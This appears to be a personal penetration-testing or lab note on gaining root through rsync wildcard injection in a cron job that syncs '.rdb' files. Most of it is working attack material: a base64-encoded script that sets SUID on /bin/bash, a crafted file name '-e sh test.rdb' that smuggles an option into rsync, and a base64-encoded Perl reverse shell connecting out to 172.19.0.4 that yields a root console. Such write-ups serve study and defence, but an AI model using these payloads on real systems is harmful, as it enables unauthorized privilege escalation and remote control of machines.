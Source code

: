 
**rsync** is a utility for [transferring](https://en.wikipedia.org/wiki/File_transfer "File transfer") and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization "File synchronization") [files](https://en.wikipedia.org/wiki/Computer_file "Computer file") between a computer and a storage drive and across [networked](https://en.wikipedia.org/wiki/Computer_network "Computer network") [computers](https://en.wikipedia.org/wiki/Computer "Computer") by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping_(computing) "Timestamping (computing)") and sizes of files.

As rsync accept wilcards to perfomor its task, we could find a way of injecting a malicious code by creating a file with permited extension
https://gtfobins.github.io/gtfobins/rsync/#shell
### Rsync usage
`rsync rsync://172.20.0.3
## Analyzing a vulnerable configuration

![[Pasted image 20240406191115.png]]
In this case content of */var/www/html/f187a0ec71ce99642e4f0afbd441a68b* is being synchronized with server *backup* by loading all *.rdb* files to it

If there is write permission in this vulnerable directory we could create a *.rdb* file which grant SUID permissions.

File test.rdb:

`#!/bin/bash`
`chmod u+s /bin/bash`

````
echo IyEvYmluL2Jhc2gKY2htb2QgdStzIC9iaW4vYmFzaAo= | base64 -d > test.rdb
````
Analysing the payload found in gftobins:
`rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`

*rsync* can execute commands with -e, so if we create a file named *-e sh test.rdb*, it will read it because it ends in *rdb* and after that execute it. As test.rdb exists as well, we will grant /bin/bash SUID permission. **We are considering that root is executing this task**

`touch -- '-e sh test.rdb'`

Waiting for cron task to be executed, we have SUID access for /bin/bash
![[Pasted image 20240406194103.png]]

### Alternative: Reverse shell executed by root in the vulnerable cron
In lieu of creating the file to grand SUID, we can load a reverse shell to *node-red* machine that by using socket will transmit it to us:

reverse_perl.rdb:
````
perl -e 'use Socket;$i="172.19.0.4";$p=1112;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

````
echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9MTExMjtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d > reverse_perl.rdb
````

`touch -- '-e sh reverse_perl.rdb'`

We get a root console:

![[Pasted image 20240406201523.png]]

